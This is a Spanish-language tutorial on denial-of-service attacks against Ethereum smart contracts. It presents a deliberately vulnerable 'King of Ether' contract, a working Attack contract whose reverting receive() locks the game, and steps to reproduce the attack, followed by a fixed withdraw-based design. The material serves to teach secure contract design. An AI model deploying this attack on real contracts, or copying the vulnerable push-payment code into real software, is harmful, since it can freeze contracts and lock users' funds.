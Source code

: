 Es conocido en el mundo de la informática los [Ataque de Denegación de Servicios o DoS](https://platzi.com/clases/2684-intro-pentesting/46093-ataques-de-denegacion-de-servicio/). Los mismos **interrumpen de forma total o parcial un servicio** como un servidor web, un servidor de base de datos o algún tipo de red donde se intercambia información.

## DoS en Blockchain
Blockchain no es la excepción, los contratos inteligentes pueden ser víctimas de este tipo de ataques. Los contratos pueden quedar bloqueados de tal manera que **se pierdan millones de dólares y no puedan recuperarse jamás**.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado
Utilizaremos un contrato inteligente de un juego cuyo objetivo es convertirse en el "Rey" enviando más ETH que el Rey anterior. El Rey destronado recuperará su ETH al perder el trono. La vulnerabilidad provocará que el contrato inteligente quede inutilizable para siempre y que nadie más pueda proclamarse Rey.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/denial-of-service/).

### Contratos involucrados
Comencemos analizando el contrato del juego que será vulnerado. Su función `claimThrone()` es la encargada de toda la lógica del mismo.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        // Devolvemos ETH al Rey destronado
        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        // Seteamos al nuevo Rey
        balance = msg.value;
        king = msg.sender;
    }
}
```

Por su parte, el contrato atacante. Su función `receive()` es la responsable de denegar el servicio para siempre del otro contrato.

```js
contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        // Instanciamos KingOfEther con su dirección
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // Función que revertirá la transacción siempre que se intente devolver el ETH al contrato.
    // Haciendo que nadie más pueda reclamar el trono.
    receive() external payable {
        revert();
    }

    // El ataque se origina cuando enviamos más ETH que el anterior Rey y el contrato Attack se convierte en el nuevo.
    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```

### Procedimiento para vulnerar el contrato
1. Desplegar el contrato `KingOfEther`.
2. Enviar 1 ETH con Alice a través de la función `claimThrone()`.
2. Enviar 2 ETH con Bob a través de la función `claimThrone()`. Alice recupera 1 ETH y Bob es el nuevo Rey.
3. Desplegar el contrato `Attack` que recibe por parámetro la dirección de `KingOfEther`.
4. Realizar el llamado a `Attack.attack` con 3 ETH.
5. El nuevo Rey será el contrato atacante y nadie más podrá reclamar el reinado.

> **CONSEJO:** Te animo a que tu mismo despliegues los contratos en entornos como [Remix](https://remix.ethereum.org/) para que explores la vulnerabilidad y veas que, efectivamente, el contrato vulnerado queda inutilizable.

### ¿Qué sucedió aquí?
`Attack` se convirtió en el nuevo Rey. Nadie más puede reclamar el trono debido a que, cuando el contrato `KingOfEther` intenta devolverle sus ETH al contrato atacante, el mismo responde con un `revert()` a través de su función `receive()`.

El ataque genera que solo el contrato atacante pierda sus ETH, ya que el Rey destronado los recupera antes de setear como Rey al contrato atacante.

Si bien, como hemos dicho, *"solo el contrato atacante pierde sus ETH"*, puede parecer un ataque sin ningún tipo de sentido, ya que es ocasionado solo por querer hacer daño a un proyecto y para que el contrato quede inutilizable. Aun así, existen escenarios donde también hay perdidas económicas de otros usuarios.

### ¿Por qué sucedió?
`KingOfEther` espera una respuesta positiva al realizar el `call()` y devolver los ETH a su respectivo dueño. El `revert()` del contrato atacante provoca que en cada llamado siempre ocurra un error y nunca pueda setearse un nuevo Rey.

Cabe recalcar que la vulnerabilidad puede exponerse no solo a través de la función `receive()` más un `revert()`. Podría simplemente no existir una función `fallback()` en el contrato atacante y provocar el mismo daño de inutilizar el contrato vulnerado.

### ¿Cómo se puede evitar?
Observa la función principal de `KingOfEther`:

```js
function claimThrone() external payable {
    require(msg.value > balance, "Necesitas pagar mas para ser el nuevo Rey.");

    (bool sent, ) = king.call{value: balance}("");
    require(sent, "El envio de ETH ha fallado.");

    balance = msg.value;
    king = msg.sender;
}
```

La misma se encarga tanto de devolver los ETH a su dueño como de setear al nuevo Rey posteriormente.

Esta vulnerabilidad puede evitarse haciendo una **división de responsabilidad**. Por un lado, la lógica para determinar al nuevo Rey. Por otro, el retiro de los ETH por parte de los usuarios que fueron destronados.

```js
contract KingOfEther {
    address public king;
    uint public balance;
    mapping(address => uint) public balances;

    function claimThrone() external payable {
        require(msg.value > balance, "Necesitas pagar mas para ser el nuevo Rey.");
        balances[king] += balance;
        balance = msg.value;
        king = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != king, "El Rey actual no puede retirar sus fondos.");
        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;
        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "El envio de ETH ha fallado.");
    }
}
```

La administración de los balances de cada cuenta siempre es mejor realizarla con un `mapping`. La función `withdraw()` permitirá a los usuarios retirar su dinero (a excepción del Rey actual) y, por más que ocurra algún tipo de denegación, podrán recuperar sus ETH.

Cada usuario es responsable de sus ETH. El retiro del mismo deben hacerlo ellos mismos y ya no será el propio contrato inteligente quien se encargue de devolvérselos.

De esta forma, el ataque DoS solo afectará al mismo contrato atacado, quién será el único que no puede recuperar sus ETH.

## Conclusiones
Hay mucha gente que busca hacer daño allá afuera. Por más que ellos también salgan perjudicados económicamente. Buscan destruir un proyecto o comunidad que puede haber por detrás.
Busca siempre las mejores prácticas a la hora de escribir código. Como en todo desarrollo de software, existen patrones de diseño recomendados para escribir código. El *Principio de Responsabilidad Única* del patrón [SOLID](https://platzi.com/blog/principios-de-programacion-solid/) también aplica para el desarrollo Web3.

---
**Contribución creada por:** *Kevin Fiorentino* **en colaboración con** *Platzi*.
